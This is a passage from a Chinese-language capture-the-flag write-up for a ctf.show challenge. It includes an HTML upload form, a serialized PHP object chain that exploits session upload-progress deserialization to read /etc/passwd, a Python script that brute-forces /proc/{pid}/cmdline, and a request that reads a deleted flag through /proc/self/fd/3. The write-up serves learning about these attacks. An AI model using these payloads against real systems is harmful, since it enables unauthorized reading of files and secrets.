
```html
<form action="http://c4ba91f7-93a1-4cfb-a221-4dea7835e458.challenge.ctf.show/" method="POST" enctype="multipart/form-data">
    <input type="hidden" name='PHP_SESSION_UPLOAD_PROGRESS' value="123" />
    <input type="file" name="file" />
    <input type="submit" />
</form>
```

然后把我们序列化后的内容传入到file的值中

```
O:5:"Happy":1:{s:5:"happy";O:5:"_New_":3:{s:5:"daniu";O:5:"_New_":3:{s:5:"daniu";O:4:"Year":1:{s:6:"zodiac";N;}s:5:"robot";s:6:"zodiac";s:8:"notrobot";s:11:"/etc/passwd";}s:5:"robot";N;s:8:"notrobot";N;}}
```

然后这里需要将双引号进行转义或者把filename的内容用单引号包裹，然后前面加个|符号，因为当前脚本的序列化引擎是php

```
O:5:"Happy":1:{s:5:"happy";O:5:"_New_":3:{s:5:"daniu";O:5:"_New_":3:{s:5:"daniu";O:4:"Year":1:{s:6:"zodiac";N;}s:5:"robot";s:6:"zodiac";s:8:"notrobot";s:11:"/etc/passwd";}s:5:"robot";N;s:8:"notrobot";N;}}
```

一开始构造的请求发送过去没打出来，后面发现需要设置Cookie，设置之后再发包，



成功读到文件，但是我试了一下php://input伪协议用不了，我们也不知道flag具体在哪，环境变量也没有，尝试爆破一下/proc/{pid}/cmdline

`/proc/[pid]/cmdline` 是 Linux 系统 **`/proc` 文件系统**中的一个特殊文件，用于存储 **进程启动时的完整命令行参数**。

写个脚本去爆破吧

```python
import requests

url = "http://c4ba91f7-93a1-4cfb-a221-4dea7835e458.challenge.ctf.show/"
for i in range(999):
    payload = '/proc/'+str(i)+'/cmdline'
    print(payload)
    data = '''------WebKitFormBoundaryPzA2hRE791H0AVst
Content-Disposition: form-data; name="PHP_SESSION_UPLOAD_PROGRESS"

123
------WebKitFormBoundaryPzA2hRE791H0AVst
Content-Disposition: form-data; name="file"; filename='|O:5:"Happy":1:{s:5:"happy";O:5:"_New_":3:{s:5:"daniu";O:5:"_New_":3:{s:5:"daniu";O:4:"Year":1:{s:6:"zodiac";N;}s:5:"robot";s:6:"zodiac";s:8:"notrobot";s:'''+str(len(payload))+''':"'''+payload+'''";}s:5:"robot";N;s:8:"notrobot";N;}}'
Content-Type: text/plain

123
------WebKitFormBoundaryPzA2hRE791H0AVst--'''
    r = requests.post(url=url, data=data,headers={'Content-Type':'multipart/form-data; boundary=----WebKitFormBoundaryPzA2hRE791H0AVst','Cookie': 'PHPSESSID=37eb994d315b99e58c34574c2597b737'})
    r = r.text.encode()[1990:]
    print(r)

```

为什么是1990，因为原先的响应内容的长度就是1990



然后发现`python3 /app/server.py`命令

尝试读取

```python
import os

app = Flask(__name__)
flag=open('/flag','r')
#flag我删了
os.remove('/flag')

@app.route('/', methods=['GET', 'POST'])
def index():
    return "flag我删了，你们别找了"

@app.route('/download/', methods=['GET', 'POST'])
def download_file():
    return send_file(request.args['filename'])


if __name__ == '__main__':
    app.run(host='127.0.0.1', port=5000, debug=False)
```

flag被删了，但文件删除之后，在 /proc 这个进程的 pid 目录下的 fd 文件描述符目录下还是会有这个文件的 fd，也就是`/proc/self/fd/`,通过这个我们即可得到被删除文件的内容

```
/download?filename=/proc/self/fd/3
```
